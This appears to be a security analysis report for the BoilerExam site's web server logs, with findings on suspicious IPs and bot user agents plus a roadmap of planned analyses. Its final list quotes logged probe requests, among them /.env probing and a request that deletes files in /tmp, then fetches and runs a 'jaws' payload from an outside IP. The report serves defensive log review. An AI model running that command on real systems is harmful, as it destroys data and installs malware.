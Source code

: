 ### BoilerExam Data Analysis Report

#### 1. **Suspicious Requests from a Specific IP**  
The IP address `52.169.249.118` was observed repeatedly attempting to access `wp-content` and other WordPress-related PHP files.  

For further details, refer to `results/malicious_ip.ipynb`.

#### 2. **Unusual User Agent: `axios/1.6.7`**  
Unlike typical user agent values such as Mac or Windows identifiers, `axios/1.6.7` exhibited unusual behavior:  
  - Consistent 5-second interval requests targeting the stats page.  

For additional insights, review `results/weird_user_agent.ipynb`.

#### 3. **Miscellaneous Data Analysis**  
Some aspects of the data analysis require a deeper review but were not fully explored due to time constraints.

For more details, refer to `results/misc.ipynb`

---

### What to do in the future
    
**1. Geolocation Analysis**
  - **Goal**: Determine the geographic origin of requests based on `client_ip`.
  -  **Steps**:
        1. Use an IP geolocation service (e.g., MaxMind, IP2Location) to map IPs to locations (country, city, region).
        2. Visualize user distribution with a world map or a heatmap.
        3. Identify if certain regions generate disproportionate amounts of traffic, which might indicate:
            - Legitimate user clusters.
            - Malicious activity clusters (e.g., botnets).

**~~2. User-Agent Analysis~~** [Completed]
  - **Goal**: Analyze patterns in user behavior or detect bots.
  - **Steps**:
    1. Parse the `user_agent` field to identify:
        - Browsers (e.g., Chrome, Firefox).
        - Operating systems (e.g., Windows, macOS, Linux).
        - Suspicious user agents (e.g., scripts or bots).
    2. Look for anomalies like:
        - High traffic from outdated browsers.
        - Generic or malformed user-agent strings.

**3. HTTP Status Code Analysis**
  - **Goal**: Evaluate server responses and identify issues.
  - **Steps**:
    1. Aggregate counts of `http_status` codes.
      - **200**: Successful requests.
      - **301/302**: Redirects.
      - **403/401**: Unauthorized or forbidden.
      - **404**: Not Found.
      - **500/502**: Server errors.
    2. Investigate spikes or patterns in error codes (e.g., a sudden increase in 404s may indicate a scanning attempt).
    
**4. Request Path Analysis**
  - **Goal**: Identify popular or unusual endpoints.
  - **Steps**:
    1. Analyze the most frequently accessed endpoints in the `request` column.
    2. Detect anomalies such as:
        - Repeated access to non-existent or sensitive files.
        - High traffic to specific endpoints (e.g., `/login`, `/admin`).
    3. Categorize requests into legitimate use cases (e.g., API calls, asset requests) and suspicious activity.
    
**5. Traffic Pattern Analysis**  
  - **Goal**: Identify time-based trends or anomalies.
  - **Steps**:
    1. Group requests by time intervals (e.g., hour, minute).
    2. Plot traffic patterns over time to identify:
        - Peak usage times.
        - Unexpected bursts of activity (potential DDoS attacks or bots).
    3. Compare weekdays vs. weekends or daily patterns to understand user behavior.

**~~6. Anomaly Detection~~** [Completed]
  - **Goal**: Detect unusual activity across various dimensions.
  - **Steps**:
      1. Define thresholds for "normal" behavior (e.g., requests per minute per IP).
      2. Identify outliers in:
          - Traffic volume.
          - HTTP status patterns.
          - Repeated access to specific endpoints.
      3. Highlight IPs or requests that deviate significantly from the norm.

**7. IP Reputation Check**    
  - **Goal**: Identify malicious or suspicious IPs.
  - **Steps**:
      1. Cross-check `client_ip` with known blacklists (e.g., AbuseIPDB, Spamhaus).
      2. Flag IPs with a history of malicious activity or high abuse scores.
      3. Monitor flagged IPs for recurring patterns.
    
**8. Correlate Traffic with Referrer**    
  - **Goal**: Understand how users are navigating to the site.
  - **Steps**:
    1. Analyze the `referer` column to identify:
        - Sources of traffic (e.g., search engines, direct access).
        - Suspicious or unexpected referrers (e.g., spam domains).
    2. Detect if certain referrers are driving malicious traffic.
    
**9. Resource Load Analysis**  
  - **Goal**: Measure server resource usage.
  - **Steps**:
    1. Use `request_body_bytes` to analyze the size of incoming requests.
    2. Look for:
        - Large payloads that may indicate abuse or file upload attempts.
        - Small, frequent payloads that could be characteristic of bot activity.

**10. User Behavior Analysis**
  - **Goal**: Track individual or grouped user activity patterns.
  - **Steps**:
    1. Group requests by `client_ip` to study user behavior over time.
    2. Look for:
        - Repeated requests to the same endpoints.
        - Users accessing sensitive endpoints (e.g., `/admin`, `/login`) without valid credentials.

**~~11. Bot Detection~~** [Completed]
  - **Goal**: Separate bots from legitimate users.
  - **Steps**:
    1. Identify patterns typical of bots, such as:
        - High-frequency requests.
        - Missing or generic user-agent strings.
        - Accessing non-existent or sensitive files.
    2. Develop heuristics or use machine learning to flag bot-like behavior.
    
**12. Dashboard Creation**    
  - **Goal**: Build a dashboard for real-time monitoring.
  - **Steps**:
    1. Use tools like Grafana or Kibana to visualize trends in the data.
    2. Include metrics like:
        - Active IPs.
        - Traffic by country.
        - HTTP status distribution.
        - Most accessed endpoints.

**13. Play around with the data**
  - SELECT * FROM data WHERE http_status NOT IN (200, 304, 204);
  - Only check 301
  - http status: 401 UNAUTHORIZED, 499
  - GET /robots.txt HTTP/1.1
  - GET /wp-login.php HTTP/1.1
  - GET /ads.txt HTTP/1.1
  - GET /.env HTTP/1.1
  - ~~Censysinspect~~
  - ~~PRI * HTTP/2.0, 400~~
      - 167.94.138.41
  - OPTIONS /submissions HTTP/2.0
  - GET /shell?cd+/tmp;rm+-rf+*;wget+ 132.145.21.30/jaws;sh+/tmp/jaws HTTP/1.1302154 Hello, world
